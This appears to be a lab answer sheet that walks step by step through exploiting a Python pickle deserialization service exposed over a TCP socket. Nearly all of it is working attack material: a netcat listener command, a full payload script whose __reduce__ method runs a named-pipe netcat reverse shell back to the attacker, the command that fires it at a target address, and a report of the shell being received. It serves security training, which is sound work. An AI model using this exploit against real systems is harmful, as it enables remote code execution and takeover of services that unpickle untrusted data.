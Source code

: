# Python Deserialization Answersheet

**Step 1:**Navigate to "Python: Connect over TCP Socket: 16662"
![Usage](1.png)
<br /> <br />

**Step 2:**Capture the IP Address and port.
![Usage](2.png)
<br /> <br />

**Step 3:**Start the listener using following command
```
`nc -nlvp 5555
```
![Usage](3.png)
<br /> <br />

**Step 4:**Use the following code to generate the payload
```python
#!/usr/bin/env python
#payload.py
import pickle
import socket
import os
import sys

if len(sys.argv) < 5:
    print "Usage: python py_exploit.py <attacker_ip_address> <attacker_port> <docker_ip_address> <docker_port>"
    sys.exit(1)

localIP=sys.argv[1] 
localPort=sys.argv[2]
dockerIP=sys.argv[3]
dockerPort=sys.argv[4]


class payload(object):
	def __reduce__(self):
		comm = "rm /tmp/shell; mknod /tmp/shell p; nc "+localIP+" "+localPort+" 0</tmp/shell | /bin/sh 1>/tmp/shell"
		return (os.system, (comm,))

payload = pickle.dumps( payload())
soc = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
soc.connect((dockerIP, int(dockerPort)))
print soc.recv(1024) 
soc.send(payload) 
```

**Step 5:**Run the exploit file using following command
```
python py_exploit.py 192.168.29.88 5555 192.168.29.201 16662
```
![Usage](4.png)
<br /> <br />

**Step 6:**Received the connection on Reverse shell and now we can extract the system information using whoami, uname -a command
![Usage](5.png)
<br /> <br />